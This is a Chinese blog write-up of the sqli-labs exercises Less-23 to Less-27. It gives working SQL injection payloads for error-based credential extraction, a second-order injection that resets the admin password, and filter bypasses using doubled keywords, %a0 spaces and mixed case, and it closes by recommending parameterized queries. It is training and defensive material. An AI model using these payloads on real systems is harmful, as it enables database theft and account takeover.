## 前言

惯例的前言，虽然没什么可说的。本篇从 page-2 开始，page-2 开头还是 21/22 这两题，base64 编码加上引号注入即可完成。正文从 23 开始。

## Less-23

提示 error based, no comments。所以应该是屏蔽了 `--`、`#`和`/**/`，所以注入要看SQL注入位置的后半句SQL怎么写的了。

尝试用 `extractvalue` 攻击发现不行。

```
?id=1' and extractvalue(1,concat('~',password)) or '1'='1
```

错误：`Only constant XPATH queries are supported`，`updatexml`也是一样。换成 `group by` 法攻击（仅限 MySQL < 5.7.36）。注入`1'`确认后面跟着的是`LIMIT 0,1`。

手工调试出一个预期的SQL：

```sql
select 
	*
from 
	-- 从 1' and 开始承接原查询
	id='1' and 
	(
        select 
     		123 -- 子查询包装，把子查询确保 payload 不影响原查询。
        from 
        	(
                select 
                	count(*), 
                	concat(
                    	(select concat(username,'~',password) from users limit 0,1), 
                        -- 拼接如 username~password 的字符串，limit 避免子查询返回多行出错，也可枚举所有行。目的都是确保能触发 duplicate entry
                    	'~',
                    	floor(rand(14)*2)
                    ) x 
                from 
                	(select 1 union all select 2)
                	-- 构造个临时表，两行就够
                group by 
                	x -- 在这里触发 duplicate entry 错误
            ) x -- 避免 Every derived table must have its own alias 错误
    ) and 
    '1'='1' -- 承接原查询的单引号，后面就是原查询的剩余部分了。
limit 
	0,1;
```

提取 Payload：

```
?id=1' and (select 123 from (select count(*),concat((select concat(username,'~',password) from users limit 0,1),'~',floor(rand(14)*2)) x from (select 1 union all select 2) as t group by x) x) and '1'='1
```



成功

## Less-24

提示 second degree injections ，但谷歌没有找到这个说法，但有另一个说法叫 second-order injection。摘自 portswigger：

> Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way.

再看页面：





分别有注册和登陆两个位置，从 second-order injection 的描述来看，如果存在于 Less-24 的话，可能的情况就是在注册接口允许特殊字符比如 `admin' or 1=1` 作为用户名。

首先尝试了注册正常用户 `test123` 并登陆，但登录后跳转`login.php`却没有内容。看来没有更多提示了。

再注册用户 `test123'"`并登陆，跳转`login.php` 依然没有内容。这就不懂了，没辙，审下源码。

注册：



立刻注意到`mysql_escape_string`，可能存在宽字符注入的问题，但和 second-order injection 好像搭不上关系，继续往下看。



并无特别之处。继续看登陆。



发现问题了。登陆成功应该设置 `Auth` 这个 cookie 但我没找到。`Location` 这个 HTTP 头也没有出现在响应里。这肯定不是正常的挑战，不审阅代码根本看不到这有个 `Auth` cookie 要设置，还有登陆成功后跳转的位置是 `logged-in.php`。

看起来是 sqli-labs 自己的 bug。页面上有几个 PHP 的警告：



尝试修复。

1. 把`Less-24/login.php`的`<?php`标签放到最前，`html`改成`echo <<<END` heredoc 形式，放到登陆失败的 `else` 分支里。
2. 把`sql-connections/sql-connect.php`的`?>`删除
3. 把`sql-connections/db-creds.inc`的`?>`删除

这和 php 如何发起 HTTP 响应有关系，HTTP 头只能出现在 body 前，如果解释器先遇到了 HTML 或者别的输出语句，那写 body 之前肯定是先把 header 给写完了。开始输出 body 部分后再调用 `setcookie` 或 `header` 就已经太迟了，HTTP 头已经发给客户端了。



修复后成功进入登录后界面，是个修改密码的表单。审代码前盲猜是直接用了 `$_SESSION['username']` 而没转义导致 second-order injection。



猜对了。

接着用`test123'`这个账号登陆试试，触发报错：



这里形成的是一个 `update` 注入，所以注册一个用户名为 `test123' or username='admin` 的用户即可修改 admin 的密码。

## Less-25

提示 all your 'OR' and 'AND' belongs to us，服务端过滤了 `AND` 和 `OR` 两个关键词，但 `UNION ALL` 还能用。尝试 `?id=0' union all select 1,username,3 from users where '1'='1` 成功。但 `password` 里的 `or` 也被过滤了。注意页面底部有个 hint 提示过滤后的文本是什么样。

尝试双写 bypass `?id=0' union all select 1,username,passwoorrd from users where '1'='1`



成功。

## Less-26

提示 all your spaces and comments belongs to us，空格和注释会被过滤。

- `?id=1';--%20`，发现`--`被过滤
- `?id=1';%23`，发现`#`被过滤
- `?id=1';/*`，发现`/*`被过滤。

三种注释符都被过滤了，尝试双写绕过。`?id=1';//**` 依然被过滤。这就蛋疼了。审一下代码吧。



这些字符都被替换了`/*-#\s\\`。经过谷歌发现一个绕过的方法，尝试用 ASCII 码表中的特殊空白符绕过。

[参考：Sqli-Labs：Less 26 - Less 26a](https://www.jianshu.com/p/ff72f2c6d99c)

先测一遍这些特殊字符：

```php
<?php

echo preg_replace('/\s/','@',"1\x092\x0a3\x0c4\x0b5\x0d6\xa0");
```

发现只有`\xa0`没有匹配到`\s`这个正则，接着尝试 union 注入，用`%a0`替代`%20`。可以写个脚本把`%00`到`%ff`都试一遍看看哪些字符可用。

`\xa0`不在 ascii 码表内，`latin1`编码中表示`non breaking space`。

```
?id=0'%a0UNION%a0ALL%a0SELECT%a01,2,3%a0FROM%a0users%a0WHERE%a0'1'='1
```



注入成功。

另外补充一下关于 AND OR 的绕过方法，使用 `preg_replace` 替换的话双写就无法绕过了，但还可以考虑用逻辑运算，`&&`、`||`以及位运算`|`、`&`去组合条件，甚至是算数运算`select * from users where (id=1)+(username='Dumb')=2;`。

以上就是空格和`and`、`or`过滤的绕过方法了。注释感觉没法绕，现在没思路，暂且不谈。

## Less-27

提示 all your union and select belongs to us ，不能使用 union 注入。测试注入`?id=1'`报错有回显，字符型注入。考虑限制了 select 查别的表会比较麻烦，先试试能不能绕过 `?id=1' uniunionon seselectlect 1,2,3`



发现`union`成功绕过，但`select`没有幸免，同时发现空格也被过滤了。修改 payload `?id=1'%a0uniunionon%a0SeselectLeCt%a01,2,3` 成功大小写绕过。



之后就是常规操作了 `?id=0'%a0uniunionon%a0SeselectLeCt%a01,2,3%a0from%a0users%a0where%a0'a'='a`，成功。



## 总结

page-2 难度果然比 page-1 大很多，今天只做出来5道题，每题都要想一会儿查查资料。

几个意识到的知识点：

1. 直接拼接某些函数有问题，或者拼子查询有问题，可以考虑下用`select 123 from (select ...)`包装一下说不定能省很多事。
2. second-order injection 的概念，用户输入可能过滤很好，但另一个地方用的时候没过滤，也会造成注入。
3. 几种绕过过滤的方法
   1. 对`and`、`or`用运算符替代的方式绕过。但有经验的开发会屏蔽掉`|&;$`之类的特殊字符，不一定好绕。
   2. 对空格过滤的绕过，`latin1`编码的空格`0xa0`。一般开发不容易注意到`0xa0`能绕过`\s`正则。
   3. 一般关键词用双写、大小写方式绕过，但不一定绕得过去，被禁用的情况下可以考虑下换别的方式。

再补充下如何安全开发。其实很简单，用 parameterized query 或者说 prepared statement/query 。目前是最有效的防 SQL 注入的方法，彻底摆脱了上面的过滤、转义等传统攻防对抗，web App 开发者可以从 SQL 注入漏洞的无底深渊里解放出来。

遗憾的是我随便翻了下 github 上的一些新 CMS，虽然有各种 ORM 可以用，现代 DBMS 也早支持了 parameterized query，但还有人在手动拼 SQL =。= 理由就不乱推测了。Go 的 sql 库还是很给力的，直接把 parameterized query 作为最佳实践了，就是还顶不住依然有人在拼字符串=。= 我也是大无语。

那就到这里结束了，辛苦我自己啦！
